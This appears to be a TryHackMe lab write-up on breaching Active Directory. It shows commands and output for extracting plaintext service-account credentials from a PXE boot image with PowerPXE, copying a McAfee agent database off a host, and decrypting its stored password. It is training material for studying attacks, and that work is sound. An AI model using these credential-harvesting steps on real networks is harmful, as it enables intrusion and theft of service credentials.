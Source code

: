 ```powershell
PS C:\Users\thm\Documents\0XFK> Get-FindCredentials -WimFile .\pxeboot.wim  
>> Open .\pxeboot.wim   
New-Item : An item with the specified name C:\Users\thm\Documents\0XFK\ already exists.   
At C:\Users\thm\Documents\0XFK\PowerPXE.ps1:212 char:13  
+     $null = New-Item -ItemType directory -Path $WimDir  
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~  
    + CategoryInfo          : ResourceExists: (C:\Users\thm\Documents\0XFK\:String) [New-Item], IOException  
    + FullyQualifiedErrorId : DirectoryExist,Microsoft.PowerShell.Commands.NewItemCommand  
   
>>>> Finding Bootstrap.ini   
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$   
>>>> >>>> UserID = svcMDT  
>>>> >>>> UserDomain = ZA  
>>>> >>>> UserPassword = PXEBootSecure1@  
PS C:\Users\thm\Documents\0XFK> Get-FindCredentials -WimFile .\pxeboot.wim
```

![](https://i.imgur.com/VrFdYSA.png)

# Configuration Files

```shell
thm@thm:~$ scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db . 

thm@10.200.4.249's password: 

ma.db 100% 118KB 144.1KB/s 00:00

thm@thm:~$ sqlitebrowser ma.db
```

![](https://i.imgur.com/hT4PaRy.png)

focus on the AGENT_REPOSITORIES table:
 
![](https://i.imgur.com/16zTbYu.png)

Python 3 for mcafee pwd decrypt can be found [here](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

```shell
sec-fortress@Pwn-F0rk-3X3C:~/THM/breachad$ python3 mcafee_sitelist_pwd_decrypt.py jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

![](https://i.imgur.com/CsdlrM7.png)


# Mitigations  
